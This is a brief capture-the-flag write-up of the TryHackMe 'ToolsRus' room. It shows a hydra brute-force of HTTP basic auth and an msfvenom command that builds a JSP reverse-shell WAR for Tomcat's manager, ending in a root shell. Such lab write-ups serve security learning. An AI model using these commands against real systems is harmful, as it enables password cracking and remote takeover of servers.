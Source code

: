 #hydra #basic-auth #msfvenom #tomcat 

https://tryhackme.com/r/room/toolsrus

---
#### Nmap
![[Screenshot_2024-05-14_18-39-09.png]]
I enumerated with gobuster and I found `/guidelines` with this line in:
![[Screenshot_2024-05-14_18-42-14.png]]

I can answer most of the questions with these informations

But for Bob's password at `/protected`, I'll use hydra:
```shell
hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.123.232 http-get /protected
```

It was a #basic-auth  so I had to use the `http-get` tag with the path `/protected` leading to the `basic auth`
![[Screenshot_2024-05-14_19-14-48.png]]

I used these creds to login on tomcat's admin panel on port `1234`

Like the [[Thompson]] room, I had to use `msfvenom` to build a `.war` payload:
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.14.79.56 LPORT=8010 -f war -o revshell.war
```
Be careful to te listening port 9000 != 8000 !

With the reverse shell uploaded, I spawned directly as root so no privilege escalation was needed.